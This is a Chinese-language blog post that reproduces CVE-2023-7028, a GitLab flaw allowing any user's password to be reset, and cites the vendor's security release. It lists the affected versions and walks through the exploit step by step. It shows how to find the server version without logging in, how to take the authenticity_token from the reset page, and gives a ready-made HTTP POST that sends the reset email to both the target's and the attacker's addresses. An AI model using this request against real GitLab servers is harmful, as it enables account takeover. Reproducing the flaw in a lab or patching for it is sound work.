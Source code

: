 #  GitLab 任意用户密码重置漏洞复现（CVE-2023-7028）   
 格格巫和蓝精灵   2024-01-13 12:47  
  
GitLab 任意用户密码重置漏洞（CVE-2023-7028）  
  
漏洞描述：  
  
2024年1月11日，Gitlab官方披露CVE-2023-7028 GitLab 任意用户密码重置漏洞，官方评级严重。攻击者可利用忘记密码功能，构造恶意请求获取密码重置链接从而重置密码。官方已发布安全更新，建议升级至最新版本，若无法升级，建议利用安全组功能设置Gitlab仅对可信地址开放。  
  
漏洞利用条件：  
1、需获取系统已有用户注  
册  
邮箱地址  
2、满足影响版本  
```
16.1 <=GitLab CE<16.1.6
16.2 <=GitLab CE<16.2.8
16.3 <=GitLab CE<16.3.6
16.4 <=GitLab CE<16.4.4
16.5 <=GitLab CE<16.5.6
16.6 <=GitLab CE<16.6.4
16.7 <=GitLab CE<16.7.2
16.1 <=GitLab EE<16.1.6
16.2 <=GitLab EE<16.2.8
16.3 <=GitLab EE<16.3.6
16.4 <=GitLab EE<16.4.4
16.5 <=GitLab EE<16.5.6
16.6 <=GitLab EE<16.6.4
16.7 <=GitLab EE<16.7.2

```  
## 复现过程  
>   
> 这里被找回邮箱为个人注册邮箱地址，真实环境中需先获取目标邮箱地址  
  
  
访问找回密码页面：/users/password/new  
  
![](https://mmbiz.qpic.cn/mmbiz_png/vqGv1p3HpTloNO6p17lgRCPNIT7fQbdxFianXElAwFJAeavfcibJFvySh708KXrN6MjveO9V7pEf9GddycebD8iaQ/640?wx_fmt=png&from=appmsg "")  
  
填写被找回邮箱地址，然后点击抓包  
  
![](https://mmbiz.qpic.cn/mmbiz_png/vqGv1p3HpTloNO6p17lgRCPNIT7fQbdx728snBjWMo7ZzuB89HMMQwrbeq6pVQzerdM9vlIOrxL8HEhSnJrGQw/640?wx_fmt=png&from=appmsg "")  
  
修改请求包为：user[email][]=目标邮箱地址&user[email][]=攻击者邮箱地址![](https://mmbiz.qpic.cn/mmbiz_png/vqGv1p3HpTloNO6p17lgRCPNIT7fQbdxIj6yT26g8qW0Gu9nEU7ulJjFNySp7Bg1pM7Hm9V9Y5w6icHPicOdK6QA/640?wx_fmt=png&from=appmsg "")  
  
  
成功复现![](https://mmbiz.qpic.cn/mmbiz_png/vqGv1p3HpTloNO6p17lgRCPNIT7fQbdxNEmPLoGKtaSQJk9ZA9AWekLU8ogJ3uEpJJicScTMohUlvrwvPVnWBYg/640?wx_fmt=png&from=appmsg "")  
  
  
其实这里看到收件人邮箱已经变为两个了  
## 半自动化  
  
关于自动化主要有两个坑点，第一是如何获取版本号，第二是在找回密码的阶段会需要有一个uauthenticity_token  
  
下面针对上面2点提出解决办法：  
  
1、获取版本  
  
公开的一些获取版本的办法大多是需要鉴权的，这里分享一种不需要登录的办法  
  
访问/assets/webpack/manifest.json  
  
![](https://mmbiz.qpic.cn/mmbiz_png/vqGv1p3HpTloNO6p17lgRCPNIT7fQbdxND9EtkhcxbY7GvBibtFUicibXOephGP7RyBu411bGoeRUWaEvy0dDZPyg/640?wx_fmt=png&from=appmsg "")  
  
获取hash值去GitHub对比版本号https://github.com/righel/gitlab-version-nse/blob/main/gitlab_hashes.json  
  
![](https://mmbiz.qpic.cn/mmbiz_png/vqGv1p3HpTloNO6p17lgRCPNIT7fQbdxcnp3do3qNXZ1WJMELSP8HtwkCRQPB8n7zcobobSJVmO2uibEAut5XJg/640?wx_fmt=png&from=appmsg "")  
  
可以发现版本是gitlab-ce 16.5.0  
  
对比发现是正确的![](https://mmbiz.qpic.cn/mmbiz_png/vqGv1p3HpTloNO6p17lgRCPNIT7fQbdxANDgDzrriak90ws8KbvqakU1m11nY7g15o6Oe2cgVWI7R0ABtH728wA/640?wx_fmt=png&from=appmsg "")  
  
  
2、authenticity_token获取  
  
访问找回密码界面/users/password/new  
  
查看源代码搜索authenticity_token即可  
  
![](https://mmbiz.qpic.cn/mmbiz_png/vqGv1p3HpTloNO6p17lgRCPNIT7fQbdxQEPsvRiaic2rENmbe0GkO7zeqicc8eIpW3ibLSRHY6vHsk8Nz26qGhBlYA/640?wx_fmt=png&from=appmsg "")  
  
构造http请求包  
```
POST /users/password HTTP/1.1
Host: xx.com
Origin: http://xx.com
Content-Type: application/x-www-form-urlencoded
Referer: http://xx.com/users/password/new8
Cookie: preferred_language=zh_CN; _gitlab_session=e00664e028c369cdd6dff19f6d7b76bf

authenticity_token=vJBEyoTkR10UJNhrFcoJOYftTHaxPj3MHVSJusNt85SyyZ60RajsS2RsgkMetn7hd_k891ZUNCdePjdW5uUW6w&user%5Bemail%5D%5B%5D=目标邮箱地址&user%5Bemail]%5D%5B%5D=攻击者邮箱地址

```  
## 补充  
  
![](https://mmbiz.qpic.cn/mmbiz_png/vqGv1p3HpTloNO6p17lgRCPNIT7fQbdx4jVmCuNOaWcyAmJF6lyNfOibb72IT7dsB8CzsT6tsdp5WMpkvb9Uwgg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/vqGv1p3HpTloNO6p17lgRCPNIT7fQbdx4jVmCuNOaWcyAmJF6lyNfOibb72IT7dsB8CzsT6tsdp5WMpkvb9Uwgg/640?wx_fmt=png&from=appmsg "")  
## Reference:  
1. https://about.gitlab.com/releases/2024/01/11/critical-security-release-gitlab-16-7-2-released/#account-takeover-via-password-reset-without-user-interactions  
  
  
  
  

